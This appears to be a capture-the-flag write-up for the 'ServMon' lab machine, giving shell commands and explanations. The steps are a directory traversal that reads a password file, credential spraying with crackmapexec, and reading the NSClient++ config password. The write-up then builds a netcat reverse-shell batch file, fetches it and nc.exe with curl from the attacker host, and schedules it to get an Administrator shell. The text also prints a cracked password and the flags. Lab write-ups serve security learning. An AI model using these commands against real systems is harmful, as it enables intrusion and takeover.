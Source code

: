 # ServMon - Easy

```shell
nmap -T4 -p- -A -Pn -v servmon.htb

ftp servmon.htb
#anonymous login

#get both files

#get directory traversal exploit
python nvms.py

python nvms.py servmon.htb Windows/win.ini

python nvms.py servmon.htb Users/nathan/Desktop/Passwords.txt
#get possible passwords

vim usernames.txt
#nathan and nadine

vim passwords.txt
#from Passwords.txt

crackmapexec smb -u usernames.txt -p passwords.txt --shares servmon.htb --continue-on-success
#gives correct password for nadine

ssh nadine@servmon.htb

type Desktop\user.txt

netstat -ano
#shows listening port at 8443
#running nsclient++

#ssh routing
ssh -L 8443:127.0.0.1:8443 nadine@servmon.htb

#get nsclient password
type "C:\Program Files\nsclient++\nsclient.ini"

#we can use password to login into localhost:8443

#in attacker machine
echo "C:\ProgramData\nc.exe 10.10.14.3 6666 -e cmd.exe" > evil.bat

python3 -m http.server

#in ssh session
cd C:\ProgramData

curl http://10.10.14.3:8000/nc64.exe -o nc.exe

curl http://10.10.14.3:8000/evil.bat -o evil.bat

#now we can setup the scripts and schedules
#in nsclient++ interface
#according to given exploit

#in attacker machine
nc -nvlp 6666
#after script executes, we get shell as Administrator
```

* Open ports & services:

  * 21 - ftp - Microsoft ftpd
  * 22 - ssh - OpenSSH for Windows 8.0
  * 80 - http
  * 135 - msrpc - Microsoft Windows RPC
  * 139 - netbos-ssn - netbios-ssn
  * 445 - microsoft-ds
  * 5666 - tcpwrapped
  * 6063 - tcpwrapped
  * 6699 - napster
  * 8443 - ssl/https-alt
  * 49664-49670 - msrpc - msrpc

* Starting with ```ftp``` enum, we can login using anonymous mode.

* There are two .txt files - both contain general notes for the users 'Nathan' and 'Nadine'.

* The notes also suggest that the public access to NVMS has not been removed yet.

* Checking the webpage on port 80, we can see that it is for ```NVMS-1000```

* Using ```searchsploit```, we can see that there are directory traversal exploits for ```NVMS-1000```.

* We can get the exploit script from Github and run it to read files such as ```win.ini```

* Now, from the note earlier, it was given that Nathan's Desktop contains Passwords.txt - we can attempt to read this using the exploit.

* We are able to read Passwords.txt in this way - this gives us multiple passwords.

* We can attempt to brute-force logging into the system using the usernames and passwords enumerated so far.

* With the help of ```crackmapexec```, we get the creds "nadine:L1k3B1gBut7s@W0rk"

* We can now log into SSH as nadine, and get user flag.

* Now, earlier through ```nmap```, we enumerated ```NSClient++``` on port 8443 (SSL/HTTPS).

* We can confirm this using ```netstat -ano``` - the Windows machine is listening on port 8443, and this service can be accessed internally only.

* So, using ```SSH routing```, we can setup port forwarding such that we can access the service on our localhost at port 8443.

* Now, searching for exploits related to ```NSClient++``` give us a couple of manual exploits.

* For the exploit, in our SSH session, we need to get two files from our attacker machine - ```nc64.exe``` and ```evil.bat```

* The ```evil.bat``` file is for launching a ```nc``` connection to the attacker machine, for a reverse shell.

* Now, after this, we need to visit <https://localhost:8443> to go to the NSClient++ interface.

* The password required for login can be found in the file ```C:\Program Files\nsclient++\nsclient.ini```

* Once we log in, we have to create a script to call ```evil.bat```:

  ```Settings > External Scripts > Scripts > Add New```
  ```foobar - command = C:\\ProgramData\\evil.bat```

* We also need to create a schedule which calls the script every minute:

  ```Settings > Scheduler > Schedules > Add New```
  ```foobar - interval = 1m```
  ```foobar - command = foobar```

* Setup a listener on attacker machine, and wait for a moment - this setting up of scripts and schedules may require multiple attempts.

* After a while, we get reverse shell on our listener as Administrator, and we can read root flag.

```markdown
1. User flag - 8287a10a9f74a9586a552c49450fb8d3

2. Root flag - 127218e211e64c5f95193692973787ce
```
